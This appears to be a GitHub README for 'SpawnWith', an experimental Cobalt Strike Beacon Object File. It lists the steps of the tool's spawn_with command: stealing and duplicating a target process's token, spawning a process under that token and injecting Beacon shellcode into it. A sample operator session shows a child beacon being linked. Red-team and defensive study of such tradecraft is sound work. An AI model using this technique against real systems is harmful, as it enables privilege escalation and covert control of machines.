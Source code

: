 ## SpawnWith
 
An experimental Beacon Object File (BOF) that provides an alternative to the `spawnas` and `inject` commands.  This exposes a new command, `spawn_with [pid] [listener]`, that performs the following:

1. Obtain a handle to the target process.
2. Obtain a handle to the process' primary token.
3. Duplicate the parimary token to an impersonation token.
4. Get the Beacon `spawnto` value.
5. Attempt to spawn a new process with the duplicated token using `CreateProcessWithTokenW`.
   - If this attempt fails, try `CreateProcessAsUserW`.
6. Inject the Beacon shellcode into the spawned process.
   - Link to the Beacon in the case of P2P.


### Example

```
beacon> getuid
[*] You are DESKTOP-1U6AHIU\Daniel (admin)

beacon> ps
22656 21972 wordpad.exe   x64   1   DESKTOP-1U6AHIU\test_user

beacon> spawnto x64 %windir%\sysnative\notepad.exe

beacon> spawn_with 22656 tcp-local
[*] Task Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444)
[+] received output:

Spawned PID 45668 and injected 297472 bytes

[+] established link to child beacon: 192.168.0.195
```

![Beacons](beacons.png)